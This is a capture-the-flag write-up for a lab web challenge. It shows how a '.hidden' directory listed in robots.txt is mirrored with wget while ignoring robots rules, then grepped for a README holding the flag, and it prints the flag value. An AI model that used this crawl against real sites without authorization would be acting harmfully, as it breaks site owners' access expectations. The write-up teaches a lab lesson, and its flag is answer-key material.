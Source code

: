 # Hidden

The robots.txt file is used to tell web crawlers and other well-meaning robots a few things about the structure of a website,
including what areas do not contain interesting information (and should therefore not be indexed).

If you have sensitive areas in your robots.txt file, then you seriously need to review the architecture of your site. 
No sensitive directories should ever be accessible to the public in any way. In fact, anything exposed to the public 
should be secured, whether it is visible or not.


## Exploit

*find_flag.sh* runs the following steps of the exploit. You will need to replace the VM_IP before you run.

```./find_flag.sh```


Go to page:

{VM_IP}/robots.txt

This page contains a folder */.hidden*. Navigate to {VM_IP}/.hidden/.
Inside, you will find many directories. 

Run the following command to download all the directories to your computer:

```wget -q -e robots=off -r -nH --no-parent --reject="index.html*" '{VM_IP}/.hidden/'```

* -q quiet
* -e is a flag option it needs to be there for the robots=off to work.
* robots=off means ignore robots file. 
* --no-host-directories       don't create host directories
* --no-parent: don't follow links outside the directory

Run this command to search all the directories and subdirectories for READMEs containing numbers:

```find .hidden -name "README" -exec grep -l -e '[0-9]' {} +```

* -l, --files-with-matches
* grep -E to access the extended regular expression syntax
* -exec command ;
          Execute  command;  true  if 0 status is returned.  All following
          arguments to find are taken to be arguments to the command until
          an  argument  consisting of `;' is encountered

This command reveals the filepath containing the flag:

.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

... and here's the flag!
flag = 99dde1d35d1fdd283924d84e6d9f1d820
